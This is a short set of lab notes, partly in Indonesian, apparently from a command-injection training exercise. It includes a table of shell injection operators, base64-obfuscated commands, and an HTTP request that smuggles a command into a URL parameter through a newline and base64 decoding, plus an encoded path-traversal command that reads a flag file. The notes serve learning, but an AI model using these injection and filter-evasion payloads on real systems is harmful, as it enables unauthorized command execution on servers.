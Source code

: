 ```bash
┌─[aexon@parrot]─[~]
└──╼ $echo -n "find /usr/share/ | grep root | grep mysql | tail -n 1" | base64
ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=
```

saya pertama encode ke base 64 lalu decode 


## Injection Operators

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |


# Skills Assessment


```json
GET /index.php?to=%0abash<<<$(base64%09-d<<<d2hvYW1pCg==)&from=flag.txt&finish=1&move=1 HTTP/1.1
Host: 94.237.59.199:50897
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.59.199:50897/index.php?to=tmp&from=696212415.txt
Connection: close
Cookie: filemanager=413jdmrsi4s22ol9hnbvs9etms
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

ternyata bisa, mari kita buat payload nya

```bash
┌─[✗]─[aexon@parrot]─[~]
└──╼ $echo "cat ../../../../../../flag.txt" | base64
Y2F0IC4uLy4uLy4uLy4uLy4uLy4uL2ZsYWcudHh0Cg==
```
